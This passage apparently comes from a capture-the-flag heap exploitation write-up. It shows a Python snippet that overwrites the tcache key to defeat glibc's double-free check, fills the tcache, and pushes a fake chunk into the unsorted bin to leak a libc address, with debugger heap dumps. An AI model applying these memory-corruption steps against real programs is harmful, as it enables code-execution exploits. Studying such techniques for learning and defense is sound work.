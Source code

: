 ```
(0x20)   tcache_entry[0](1): 0x55555555c2e0
(0x30)   tcache_entry[1](3): 0x55555555c430 --> 0x55555555c430 (overlap chunk with 0x55555555c420(freed) )
(0x40)   tcache_entry[2](2): 0x55555555c460 --> 0x55555555c300
(0x50)   tcache_entry[3](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
(0x60)   tcache_entry[4](1): 0x55555555c290 (overlap chunk with 0x55555555c2d0(freed) )

```

#### Get Unsorted Bin

What this allows me to do is free fake2, then use B to change the key, and then free it again. I’ll free it eight times in total, the first seven going into tcache, and the last going into unsorted bins, which leaves the double-linked list pointers on the heap. I’ll also need to make sure that 0xa0 bytes after A meta is a valid looking meta, and that’s why I when I created E, I sprayed lots of 0x21s in.

```

# free fake to fill tcache, then overwrite key protecting from double free
for i in range(7):
    edit('fake2', 0x0)    # free fake block, put 3e0 in 0xa0 tcache
    edit('B', 0x70, p64(0)*5 + p64(0xa1) + p64(0) + chr(i).encode()) # B

rm('B') # B
rm('fake2')

```

Now two files are open, and there’s a libc address on the stack:

```
-----------------------------------
[0x0000000000000000]         : (null)
[0x0000000000000000]         : (null)
-----------------------------------
0x55555555c3a0: 0x0000000000000000      0x0000000000000081
0x55555555c3b0: 0x0000000000000000      0x000055555555c010
0x55555555c3c0: 0x0000000000000000      0x0000000000000000
0x55555555c3d0: 0x0000000000000000      0x00000000000000a1
0x55555555c3e0: 0x00007ffff7fc3ca0      0x00007ffff7fc3ca0  <-- libc meta
0x55555555c3f0: 0x0000000000000000      0x0000000000000000
0x55555555c400: 0x0000000000000000      0x0000000000000000
0x55555555c410: 0x0000000000000000      0x0000000000000000
0x55555555c420: 0x0000000000000000      0x0000000000000031
-----------------------------------
                  top: 0x55555555c490 (size : 0x20b70) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x55555555c3d0 (overlap chunk with 0x55555555c420(freed) )
(0x20)   tcache_entry[0](1): 0x55555555c2e0
(0x30)   tcache_entry[1](3): 0x55555555c430 --> 0x55555555c430 (overlap chunk with 0x55555555c420(freed) )
(0x40)   tcache_entry[2](2): 0x55555555c460 --> 0x55555555c300
(0x50)   tcache_entry[3](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
(0x60)   tcache_entry[4](1): 0x55555555c290 (overlap chunk with 0x55555555c2d0(freed) )
(0x80)   tcache_entry[6](1): 0x55555555c3b0
(0xa0)   tcache_entry[8](7): 0x55555555c3e0 (overlap chunk with 0x55555555c420(freed) )  <-- actually 7 in there, but only shows once

```
